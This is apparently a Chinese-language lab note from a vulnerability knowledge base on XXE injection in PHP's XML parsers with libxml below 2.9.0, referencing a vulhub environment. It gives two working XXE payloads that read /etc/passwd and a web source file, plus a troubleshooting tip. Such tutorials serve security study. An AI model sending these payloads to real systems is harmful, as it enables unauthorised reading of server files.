 参考
	- https://github.com/vulhub/vulhub/tree/master/php/php_xxe
	- https://www.kingkk.com/2018/07/%E7%AE%80%E6%9E%90XXE/
	- https://www.php.net/manual/en/class.simplexmlelement.php
	- https://stackoverflow.com/questions/51103431/parsepi-pi-php-never-end-when-trying-to-run-a-new-unit-test


不知`SimpleXMLElement`类，有如下受到影响的类和函数
`SimpleXMLElement`、`DOMDocument`、`simplexml_load_string`
(libxml<2.9.0, PHP 5, PHP 7)
libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。为了演示PHP环境下的XXE漏洞，本例会将libxml2.8.0版本编译进PHP中。PHP版本并不影响XXE利用。

## 前置知识
- [XML](/VUL/XML.md)
- [DTD](/VUL/DTD.md)

## 攻击
post发包并添加`Content-Type: text/xml`

payload：
```php
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///var/www/html/dom.php" >]>
<root>
<name>&xxe;</name>
</root>

<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE a [
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```
在获取dom.php文件时，最开始会报错
`DOMDocument::loadXML(): ParsePI: PI php never end ... in file:///var/www/html/dom.php, line: 7 in `
这是因为xml把`<?php`识别为标签的开始，但是并没有出现标签的结束`>`，加上就好了。
